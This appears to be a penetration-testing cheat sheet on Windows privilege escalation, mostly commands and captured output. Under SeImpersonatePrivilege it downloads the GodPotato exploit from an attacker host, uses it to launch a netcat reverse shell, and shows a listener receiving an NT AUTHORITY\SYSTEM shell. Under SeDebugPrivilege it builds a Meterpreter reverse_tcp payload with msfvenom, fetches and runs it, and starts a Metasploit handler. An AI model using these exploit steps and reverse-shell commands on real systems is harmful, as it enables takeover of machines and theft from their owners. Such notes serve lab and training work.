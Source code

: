## SeImpersonatePrivilege
```powershell
C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
...
```
```powershell
PS C:\programdata> iwr http://<tun0>/GodPotato-NET4.exe -outfile gp.exe
```
```powershell
PS C:\programdata> .\gp.exe -cmd "C:\Users\Public\nc64.exe -e cmd.exe <tun0> <port>"
[*] CombaseModule: 0x140733127524352
[*] DispatchTable: 0x140733130111304
[*] UseProtseqFunction: 0x140733129406688
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\eb27b3cc-7b5a-420d-8f01-d3094f6ee323\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000402-0d08-ffff-8e84-859d1b28d501
[*] DCOM obj OXID: 0xd402854b19147ceb
[*] DCOM obj OID: 0x20ef4be3bfc76a84
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 892 Token:0x496  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3040
```
```powershell
➜  nc -nlvp 443
listening on [any] 443 ...
connect to [10.8.0.210] from (UNKNOWN) [10.10.150.182] 54910
Microsoft Windows [Version 10.0.20348.2340]
(c) Microsoft Corporation. All rights reserved.

C:\programdata>whoami
nt authority\system
```
## SeDebugPrivilege
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -ax64 -f exe LHOST=<ip> LPORT=<port> -o shell.exe
```
```powershell
PS C:\temp> iwr http://<ip>/shell.exe -outfile shell.exe
PS C:\temp> .\shell.exe
```
```bash
msf6 > use exploit/multi/handler
```